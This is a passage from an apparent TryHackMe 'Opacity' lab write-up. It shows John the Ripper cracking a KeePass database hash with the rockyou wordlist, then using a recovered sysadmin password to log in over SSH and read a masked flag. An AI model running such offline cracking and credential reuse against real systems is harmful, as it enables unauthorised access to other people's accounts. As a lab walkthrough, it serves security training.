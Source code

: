 ```bash
┌──(root㉿kali)-[~/Desktop]
└─# /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hash                      
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>        (dataset)     
1g 0:00:00:18 DONE (2025-02-27 22:51) 0.05494g/s 47.91p/s 47.91c/s 47.91C/s chichi..walter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

We successfully obtained its password and can proceed to opening `kdbx` file using KeePassXC.
Inside we found a password for `sysadmin` user.

![alt text](../assets/img/posts/2025-02-27-thm-writeup-opacity/image-10.png)

Let's verify if that's a valid one using it for logging in via SSH with `sysadmin`

```bash
┌──(root㉿kali)-[~/Desktop]
└─# ssh sysadmin@opacity.thm 

sysadmin@opacity:~$ cat local.txt 
6******************************2

```
